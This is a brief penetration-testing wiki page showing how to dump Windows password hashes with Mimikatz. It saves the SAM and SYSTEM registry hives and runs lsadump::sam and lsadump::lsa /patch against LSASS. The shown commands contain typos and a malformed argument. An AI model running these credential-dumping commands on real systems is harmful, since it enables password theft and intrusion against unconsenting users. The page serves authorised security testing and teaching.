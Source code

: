 ```yaml
---
title: Dump Hashes
layout: default
parent: Mimikatz
grand_parent: Pentesting
---
```


# Dumping user hashes using Mimikatz

## Introduction

Windows stores usernames and passwords in the Security Account Manager (SAM) database, and the Local Security Authority Subsystem Service (LSASS) process holds this sensitive information in memory. Particularly in Windows 7 and earlier versions, passwords stored in LSASS memory are susceptible to extraction in clear-text form. Mimikatz, a potent and versatile post-exploitation tool, is often employed by security professionals, penetration testers, and attackers to dump these credential hashes from LSASS.

## Step-by-Step Guide

### Dumping from the SAM database
```bash
C: > reg save HKLM\SAM SAM # saves SAM database
C: > reg save HKLM\SYSTEM SYTSTEM # saves SYSTEM database
C: > mimikatz.exe
mimikatz > lsadump::sam \sam:SAM # from SAM and SYTEM database
```
![Dump SAM database hashes](dump_sam.png)

### Dumping from the LSASS process

```bash
mimikatz > lsadump::lsa /patch # or any other mimikatz commands to dump ntlm hashes
```
![Dump from LSASS ](dump_lsass.png)

## Video Demonstration

[<img src="https://img.youtube.com/vi/4voh1h7lgrQ/hqdefault.jpg"
/>](https://www.youtube.com/embed/4voh1h7lgrQ)

## Reference
https://github.com/gentilkiwi/mimikatz/